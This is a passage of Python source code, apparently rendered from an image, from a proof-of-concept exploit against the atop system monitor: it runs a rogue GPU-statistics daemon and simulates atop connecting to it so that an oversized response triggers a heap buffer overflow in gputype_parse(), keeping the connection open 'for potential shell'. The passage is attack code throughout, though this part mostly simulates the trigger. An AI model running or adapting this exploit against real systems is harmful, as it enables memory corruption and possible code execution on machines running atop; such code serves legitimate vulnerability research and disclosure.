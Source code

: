                         client_socket.close()
                        
                    except socket.error:
                        break
                        
            except Exception as e:
                print(f"[-] Daemon error: {e}")
        
        daemon_thread = threading.Thread(target=daemon_handler)
        daemon_thread.daemon = True
        daemon_thread.start()
        
        return daemon_thread
    
    def simulate_atop_startup(self):
        """
        Simulate ATOP startup that triggers automatic connection
        """
        print("[+] Simulating ATOP startup with automatic GPU daemon connection...")
        
        # Wait for daemon to start
        time.sleep(2)
        
        try:
            # Simulate the automatic connection from atop.c lines 777-790
            test_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            test_socket.connect((self.target_host, self.daemon_port))
            
            # Send initial GPU stats request (as ATOP would)
            gpu_request = b"GET_GPU_STATISTICS\n"
            test_socket.send(gpu_request)
            
            # Receive malicious response
            response = test_socket.recv(8192)
            print(f"[+] Received malicious GPU data: {len(response)} bytes")
            
            # Simulate vulnerability trigger
            if len(response) > 1000:
                print("[!] HEAP BUFFER OVERFLOW TRIGGERED!")
                print("[!] gputype_parse() vulnerability exploited")
                
            # Keep connection for potential shell
            time.sleep(5)
            
            test_socket.close()
            